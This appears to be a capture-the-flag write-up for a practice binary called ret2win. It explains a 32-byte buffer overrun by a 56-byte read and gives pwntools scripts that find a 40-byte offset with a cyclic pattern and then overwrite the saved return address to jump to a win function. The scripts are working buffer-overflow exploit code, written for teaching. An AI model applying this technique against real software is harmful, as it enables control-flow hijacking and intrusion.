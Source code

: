 we can see that we have a buffer of 32 bytes, as the program alredy tell us, and a read of 56 bytes at 0x00400744.

I wrote a little script that calculate for us how many bytes we need to write in order to reach the rip stored into the stack.

```python
from pwn import *
context.binary = elf = ELF('./ret2win')

p = elf.process()

g = cyclic_gen()

p.recvuntil('> ')
p.sendline(g.get(100))

p.shutdown()
p.wait()

c = Core('./core')

offset = g.find(p64(c.fault_addr))

log.info("OFFSET FIND > "+str(offset))

# This is the result:
# [*] OFFSET FIND > (40, 0, 40)
```

basically the cyclic_gen() with the get(100) method create a *de bruijn sequence* and quering the cyclig_gen() object stored in g with 
the method find(p64('c.fault_addr')) this object can calculate at what offset is the pattern stored in c.falut__addr **that contain the value 
of the rip where the program crashed**. And this value is our offset.

Here is a little representation of the stack:

```

           buffer                      ebp   ret     
<------   [                          ][    ][    ]
          de-bruijn-sequence-aaaaaaabaaacaaadaaaea....	   

top of                                           bottom of
stack                                                stack

```

So now that we have the offset we can craft our payload in order to win this challenge!


```python
from pwn import *
context.binary = elf = ELF('./ret2win')

p = elf.process()
gdb.attach(p)

offset = 40

payload = b'A'*offset + p64(elf.sym['ret2win'])

p.recv()
p.sendline(payload)
log.info(p.recvall())
```
